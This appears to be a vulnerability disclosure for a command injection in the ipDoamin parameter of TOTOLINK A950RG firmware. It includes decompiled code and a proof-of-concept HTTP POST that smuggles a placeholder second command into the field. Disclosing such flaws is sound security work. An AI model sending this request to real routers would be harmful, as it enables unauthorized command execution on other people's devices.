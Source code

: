 # Command Injection Vulnerability in `ipDoamin`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | TOTOLINK A950RG                                              |
| Firmware Version     | V5.9c.4592_B20191022_ALL                                     |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `system.so` (function `setDiagnosisCfg`)                     |
| Data Flow            | User input retrieved via `websGetVar("ipDoamin")` → directly concatenated into `ping` command → executed via `CsteSystem`. |
| Exploit Path         | `setDiagnosisCfg` line 7: `Var = websGetVar(..., "ipDoamin", ...)` → line 8: `sprintf(v8, "ping %s ...", Var)` → line 9: `CsteSystem(v8, 0)` → arbitrary command execution. |
| Prerequisites        | No sanitization or filtering on `ipDoamin`; attacker-controlled input directly propagates into system command. |

2. Exploitation Path

```c
int __fastcall setDiagnosisCfg(int a1, int a2, int a3)
{
  const char *Var; // $v0
  char v8[132]; // [sp+18h] [-84h] BYREF

  memset(v8, 0, 0x80u);
  Var = (const char *)websGetVar(a2, "ipDoamin", "www.baidu.com");
  sprintf(v8, "ping %s -w 4 &>/var/log/pingCheck", Var);
  CsteSystem(v8, 0);
  return websSetCfgResponse(a1, a3, "0", "reserv");
}
```

3. **Vulnerable Binaries:**  `system.so` .
4. 0-Day Command Injection Exploitation Path: In the `setDiagnosisCfg` function, line 7 executes `Var = (const char *)websGetVar(a2, "ipDoamin", "www.baidu.com")`, which retrieves network input associated with the keyword `ipDoamin`. The retrieved value is subsequently concatenated and directly passed into line 9 `CsteSystem(v8, 0)`, thereby triggering a command injection vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/system.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Connection: close

ipDoamin=www.baidu.com;`INJECTED_COMMAND`
```
